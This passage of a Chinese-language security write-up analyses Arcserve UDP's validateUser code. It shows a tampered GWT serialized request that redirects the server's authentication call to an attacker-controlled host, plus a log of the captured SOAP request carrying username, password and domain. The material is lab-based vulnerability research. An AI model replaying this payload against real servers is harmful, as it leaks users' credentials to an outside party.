     
    
    public Boolean validateUser(HttpServletRequest req, String protocol, String host, int port, String domain, String username, String password, String logindetail) throws BusinessLogicException, ServiceConnectException, ServiceInternalException {    logger.debug("validateUser(HttpServletRequest, String, String, int, String, String, String, String) - start");    if (StringUtil.isEmptyOrNull(username))      throw generateException(FlashServiceErrorCode.Login_UsernameRequired);    if (StringUtil.isEmptyOrNull(password))      throw generateException(FlashServiceErrorCode.Login_PasswordRequired);    HttpSession session = req.getSession();    WebServiceClientProxy client = null;    LoginDetail detail = null;    try {      logger.debug(protocol + host + port);      client = (WebServiceClientProxy)ServiceProviders.getLocalFlashServiceProvider().create(protocol, host, port, "IFlashService_R16_5");      setServiceClient(req, client);      detail = client.getService().validateUserWithDetail(username, password, domain, logindetail);      setLocalWebServiceClient(client);    } catch (WebServiceException exception) {      logger.error("Error occurs during validate user...");      logger.error(exception.getMessage());      if (exception.getCause() instanceof Error && exception.getMessage().startsWith("Undefined operation name"))        throw generateException(FlashServiceErrorCode.EDGE_D2D_INTERFACE_MISMATCH);      proccessAxisFaultException(exception);    }    HostInfo hostInfo = new HostInfo();    hostInfo.setName(host);    hostInfo.setUsername(username);    session.setAttribute(SessionConstants.SRING_DOMAIN, domain);    session.setAttribute(SessionConstants.SRING_USERNAME, username);    session.setAttribute(SessionConstants.SRING_PASSWORD, password);    session.setAttribute(SessionConstants.SRING_UUID, "");    session.setAttribute(SessionConstants.SRING_LOGIN_DETAIL, detail);    logger.debug("validateUser(HttpServletRequest, String, String, int, String, String, String, String) - end");    return Boolean.TRUE;  }

从上面的代码中可以看出，validateUser方法创建了一个“客户端”，它将充当代理，与负责验证所提供凭据的 WebService 独立通信。此
WebService 的位置以及所使用的架构（HTTP 或
HTTPs）是序列化对象中提供的信息。因此，如果我们阻止并编辑传输中的请求以修改序列化对象的值，我们就可以使该“客户端”联系我们控制的 HTTP
服务器。例如，让我们将“EPIPELAGIC”主机更改为“192.168.56.1”并建立一个最小的 HTTP 服务器来记录请求：

  * 

    
    
    7|0|10|https://192.168.56.10:8014/contents/|9D583B6834A20CE6C6975A0AA976C843|com.ca.arcflash.ui.client.login.LoginService|validateUser|java.lang.String/2004016611|I|http:|192.168.56.1|SEVENKINGDOMS|vagrant|1|2|3|4|6|5|5|6|5|5|5|7|8|7777|9|10|10|
    
    
    在我们的记录器中，我们收到以下请求：

  *   *   *   *   *   * 

    
    
    psyconauta@insulanova:/tmp|⇒  python3 loghttp.py 7777Starting httpd...<?xml version='1.0' encoding='UTF-8'?><S:Envelope xmlns:S="<http://schemas.xmlsoap.org/soap/envelope/>"><S:Body><ns2:validateUser xmlns:ns2="<http://webservice.arcflash.ca.com>" xmlns:ns3="<http://backup.data.webservice.arcflash.ca.com/xsd>" xmlns:ns4="<http://data.webservice.arcflash.ca.com/xsd>" xmlns:ns5="<http://export.data.webservice.arcflash.ca.com/xsd>" xmlns:ns6="<http://vsphere.data.webservice.arcflash.ca.com/xsd>" xmlns:ns7="<http://browse.data.webservice.arcflash.ca.com/xsd>" xmlns:ns8="<http://restore.data.webservice.arcflash.ca.com/xsd>" xmlns:ns9="<http://catalog.data.webservice.arcflash.ca.com/xsd>" xmlns:ns10="<http://activitylog.data.webservice.arcflash.ca.com/xsd>" xmlns:ns11="<http://remotedeploy.data.webservice.arcflash.ca.com/xsd>" xmlns:ns12="<http://history.job.data.webservice.arcflash.ca.com/xsd>" xmlns:ns13="<http://webservice.edge.arcserve.ca.com/>"><arg0>vagrant</arg0><arg1>vagrant</arg1><arg2>SEVENKINGDOMS</arg2></ns2:validateUser></S:Body></S:Envelope>192.168.56.10 - - [04/Feb/2023 11:56:58] "POST /WebServiceImpl/services/FlashServiceImpl HTTP/1.1" 200 -<?xml version='1.0' encoding='UTF-8'?><S:Envelope xmlns:S="<http://schemas.xmlsoap.org/soap/envelope/>"><S:Body><ns2:getVersionInfo xmlns:ns2="<http://webservice.arcflash.ca.com>" xmlns:ns3="<http://backup.data.webservice.arcflash.ca.com/xsd>" xmlns:ns4="<http://data.webservice.arcflash.ca.com/xsd>" xmlns:ns5="<http://export.data.webservice.arcflash.ca.com/xsd>" xmlns:ns6="<http://vsphere.data.webservice.arcflash.ca.com/xsd>" xmlns:ns7="<http://browse.data.webservice.arcflash.ca.com/xsd>" xmlns:ns8="<http://restore.data.webservice.arcflash.ca.com/xsd>" xmlns:ns9="<http://catalog.data.webservice.arcflash.ca.com/xsd>" xmlns:ns10="<http://activitylog.data.webservice.arcflash.ca.com/xsd>" xmlns:ns11="<http://remotedeploy.data.webservice.arcflash.ca.com/xsd>" xmlns:ns12="<http://history.job.data.webservice.arcflash.ca.com/xsd>" xmlns:ns13="<http://webservice.edge.arcserve.ca.com/>"/></S:Body></S:Envelope>192.168.56.10 - - [04/Feb/2023 11:56:58] "POST /WebServiceImpl/services/FlashServiceImpl HTTP/1.1" 200 -
    